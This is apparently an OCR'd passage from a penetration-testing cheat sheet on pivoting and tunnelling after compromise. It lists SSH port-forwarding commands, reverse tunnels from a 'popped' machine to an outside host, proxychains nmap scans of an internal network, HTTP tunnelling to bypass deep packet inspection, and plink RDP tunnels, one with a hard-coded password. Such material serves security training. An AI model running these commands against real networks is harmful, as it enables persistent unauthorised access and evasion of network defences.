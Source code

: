 -   SSH Local Port Forwarding: supports bi-directional communication
    channels
 
    -   `ssh <gateway> -L <local port to listen>:<remote
        host>:<remote port>`
 
-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network
 
    -   `ssh <gateway> -R <remote port to bind>:<local
        host>:<local port>`
 
-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT
 
    -   `ssh -D <local proxy port> -p <remote port>
        <target>`
 
-   Proxychains - Perform nmap scan within a DMZ from an external
    computer
 
    -   Create reverse SSH tunnel from Popped machine on :2222  
       
        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
        `ssh -f -N -R 2222:<local host>:22 root@<remote host>`
 
    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
       
        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`
 
    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
       
        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`
 
-   HTTP Tunneling  
     
      `nc -vvn $ip 8888`
 
-   Traffic Encapsulation - Bypassing deep packet inspection
 
    -   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80  `
        On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
 
-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network
 
    -   Tunnel on port 22  
   
        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`
 
    -   Port 22 blocked? Try port 80? or 443?  
   
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`
 
-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)
 